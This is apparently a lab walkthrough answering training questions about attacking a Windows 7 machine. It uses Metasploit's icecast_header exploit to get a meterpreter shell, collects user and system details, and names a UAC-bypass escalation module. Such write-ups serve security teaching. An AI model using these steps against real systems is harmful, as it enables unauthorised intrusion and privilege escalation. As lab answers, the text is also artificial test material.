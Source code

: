 ```
 RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
```

5. Set RHOSTS to target IP and exploit.

```
msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.67.129
RHOSTS => 10.10.67.129
msf5 exploit(windows/http/icecast_header) > exploit

```

6.  Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?

```
meterpreter
```

7.  What user was running that Icecast process?

```
meterpreter > getuid
Server username: Dark-PC\Dark
```

8. What build of Windows is the system?

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

```

9. Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. 
First, what is the architecture of the process we're running?

```
x64
```

10.  	

Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full 
path (starting with exploit/) for the first returned exploit?

```
exploit/windows/local/bypassuac_eventvwr
```
